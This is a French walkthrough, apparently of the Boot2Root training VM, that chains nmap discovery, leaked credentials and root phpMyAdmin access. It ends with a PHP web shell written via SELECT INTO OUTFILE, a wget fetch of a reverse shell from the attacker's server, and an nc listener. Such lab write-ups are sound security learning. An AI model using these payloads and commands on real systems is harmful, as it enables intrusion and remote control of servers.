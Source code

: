 Une fois l'iso lancé, on cherche son IP sur le réseau:

`nmap -sP 192.1.1.0/24`

On scan ensuite les dossiers utilisés par la plupart des appli et serveurs web:

`nmap -sV --script=http-enum <IP>`

On trouve les chemins suivants:
 > /forum/: Forum
/phpmyadmin/: phpMyAdmin
/webmail/src/login.php: squirrelmail version 1.4.22
/webmail/images/sm_logo.png: SquirrelMail

On se rend sur le forum, dans lequel on trouve un topic 'Probleme login ?' posté par lmezard.
Il contient des logs de connexions.
On remarque que le log précédent la connexion réussie de lmezard contient un username ressemblant a un mot de passe : !q\]Ej?*5K5cy*AJ
On utiliser ces credentials pour se connecter au forum.
On accede au profil perso de lmezard dans lequel apparait son adresse mail :
> laurie@borntosec.net

On se rend sur le webmail, et on utilise le mail de lmezard avec son MDP du forum.
Dans la boite, un mail dont l'objet est "DB Access" contient les credentials de root pour la DB :
> root/Fg-'kKXBj87E:aJ$

On se rend sur phpMyAdmin, et on utilise les credentials trouvés dans le mail.
En cliquant sur l'onglet SQL on peut effectuer une injection SQL sur le serveur.
Pour cela on a besoin de lancer la requete suivante:

`SELECT "<?php system($_GET['cmd']); ?>" INTO OUTFILE "/path/to/writable/directory/backdoor.php"`

On a donc besoin de trouver un dossier sur le serveur avec droits d'écriture. Sinon la requête fail.

On utilise la commande dirb pour scanner les dossiers du serveur:

`dirb https://<IP>`

On trouve toute une liste de dossiers, listables ou non, on les teste les listables, on arrive a écrire dans 
> /forum/templates_c/

Le serveur apache utilise le chemin classique "/var/www" pour stocker ses sites.
On lance donc la requête:

`SELECT "<?php system($_GET['cmd']); ?>" INTO OUTFILE "/var/www/forum/templates_c/backdoor.php"`

Le fichier backdoor.php va donc exéctuer sur le serveur toute commande passée en argument dans l'URL, par exemple: 

`https://<IP>/forum/templates_c/backdoor.php?cmd=ls`
On obtient bien la liste des fichiers présents dans le dossier.

Pour faciliter la navigation dans le filesystem, on peut uploader un reverse shell sur le serveur pour s'y connecter en remote.
On récupère un reverse-shell sur le web qu'on configure pour fonctionner avec nos VM.
Pour uploader ce shell sur le serveur, on le place sur un serveur perso et on utilise notre backdoor.
Sur le serveur perso, on place php-reverse-shell à la racine du site.
Sur un browser on lance:

`https://<IP>/forum/templates_c/backdoor.php?cmd=wget http://<IPserveur>/php-reverse-shell -O php-reverse-shell.php`
Le shell est désormais sur le serveur.
On ouvre une connexion TCP sur l'hôte :
 
`nc -v -n -l -p 1234`
Puis on lance le shell sur le serveur :

`https://<IP>/forum/templates_c/php-reverse-shell.php`
La connexion s'effectue sur l'hôte, on a accès à un terminal sous le user www-data.
